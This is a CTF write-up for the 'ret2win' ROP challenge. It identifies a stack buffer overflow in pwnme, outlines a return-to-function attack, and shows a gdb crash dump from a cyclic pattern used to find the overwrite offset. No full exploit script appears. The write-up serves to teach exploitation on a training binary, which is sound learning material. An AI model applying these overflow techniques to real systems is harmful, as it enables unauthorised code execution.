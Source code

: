 ### pwnme function

- - We can clearly see a buffer overflow vulnerability in pwnme function.
![15725d49c91d4dd39ce69b2cea161be6](https://user-images.githubusercontent.com/69533371/127839159-c4b17710-c09c-466b-bf89-d3f58d0f5a39.png)


# Exploit 
ROP ATTACK

GADGET - RET 

We overflow a stack to force RIP to call a required function in order to obtain the flag. 


# Finding offset
```
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
Thank you!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0xb ('\x0b')
RBX: 0x400780 (<__libc_csu_init>:	push   r15)
RCX: 0x7ffff7eb9c27 (<__GI___libc_write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7ffff7f93743 --> 0xf95670000000000a 
RDI: 0x7ffff7f95670 --> 0x0 
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffddd8 ("AA0AAFAAbA\n")
RIP: 0x400755 (<pwnme+109>:	ret)
R8 : 0xb ('\x0b')
R9 : 0x7ffff7fdab50 (endbr64)
R10: 0xfffffffffffffb6b 
R11: 0x246 
R12: 0x4005b0 (<_start>:	xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40074e <pwnme+102>:	call   0x400550 <puts@plt>
   0x400753 <pwnme+107>:	nop
   0x400754 <pwnme+108>:	leave  
=> 0x400755 <pwnme+109>:	ret    
   0x400756 <ret2win>:	push   rbp
   0x400757 <ret2win+1>:	mov    rbp,rsp
   0x40075a <ret2win+4>:	mov    edi,0x400926
   0x40075f <ret2win+9>:	call   0x400550 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddd8 ("AA0AAFAAbA\n")
0008| 0x7fffffffdde0 --> 0xa4162 ('bA\n')
0016| 0x7fffffffdde8 --> 0x7ffff7dda565 (<__libc_start_main+213>:	mov    edi,eax)
0024| 0x7fffffffddf0 --> 0x7fffffffded8 --> 0x7fffffffe21e ("/home/pwn0x80/Documents/ctfs/rop/ret2wins/ret2win")
0032| 0x7fffffffddf8 --> 0x1f7fc7000 
0040| 0x7fffffffde00 --> 0x400697 (<main>:	push   rbp)
0048| 0x7fffffffde08 --> 0x7fffffffe1f9 --> 0x48228dfe71299143 
0056| 0x7fffffffde10 --> 0x400780 (<__libc_csu_init>:	push   r15)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000400755 in pwnme ()
```